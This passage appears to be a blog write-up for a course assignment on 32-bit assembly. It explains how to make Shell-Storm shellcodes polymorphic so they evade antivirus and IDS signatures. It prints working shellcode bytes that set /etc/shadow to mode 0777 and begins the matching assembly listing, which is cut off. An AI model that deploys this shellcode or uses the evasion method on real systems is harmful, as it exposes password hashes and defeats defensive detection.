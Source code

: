 ```yaml
---
title: "SLAE32 - Assignment #6 - Polymorphic Shellcodes"
tags: ["slae32", "assembly", "shellcode", "exploit-development"]
---
```


## Introduction

This is the blog post for the 6<sup>th</sup> Assignment of the SLAE32 course, which is offered by <a href="https://www.pentesteracademy.com/course?id=3" target="_blank">PentesterAcademy</a>. The course focuses on teaching the basics of 32-bit Assembly language for the Intel Architecture (IA-32) family of processors on the Linux platform.

The purpose of this assignment is to take 3 shellcodes from <a href="https://shell-storm.org/shellcode/index.html" target="_blank">Shell-Storm</a> from the **Intel x86** category and create polymorphic versions of them in order to beat pattern matching. Pattern matching means that a program (AV or IDS) has a database with **signatures**. A signature is bytes suite identifying a program. More information can be found at: <a href="https://phrack.org/issues/61/9.html" target="_blank">Polymorphic Shellcode Engine, by Phrack</a>. So, with polymorphism we preserve the functionality of the shellcode, by using equivalent instructions or garbage instructions that don't change the functionality at all, like `NOP`. 

The table below is used to navigate to each original and polymorphic shellcode and provides the size of the shellcode before and after the modifications.

| Shellcode Name | Shellcode in Shell-Storm | Original Size | Polymorphic Size |
| -- | -- | -- | -- |
| [chmod](#chmod) | <a href="https://shell-storm.org/shellcode/files/shellcode-590.html" target="_blank">Shell-Storm chmod</a> | 33 | 43 |
| [execve-chmod](#execve-chmod) | <a href="https://shell-storm.org/shellcode/files/shellcode-828.html" target="_blank">Shell-Storm execve-chmod</a> | 57 | 80 |
| [sys_exit(0)](#sys_exit) | <a href="https://shell-storm.org/shellcode/files/shellcode-623.html" target="_blank">Shell-Storm sys_exit(0) x86 linux shellcode</a> | 8 | 7 |

My code can be found in my Github: <a href="https://github.com/geobour98/slae32" target="_blank">geobour98's Github</a>.

## chmod {#chmod}

The original `chmod("/etc/shadow, 0777")` shellcode is the following:

```shell
\x31\xc0\x50\xb0\x0f\x68\x61\x64\x6f\x77\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74\x89\xe3\x31\xc9\x66\xb9\xff\x01\xcd\x80\x40\xcd\x80
```

The initial `Assembly` version (`chmod-original.nasm`) would look like this:

```nasm
global _start

section .text
_start:

	xor eax, eax
	push eax

	mov al, 0xf

	push 0x776f6461
	push 0x68732f63
	push 0x74652f2f

	mov ebx, esp

	xor ecx, ecx

```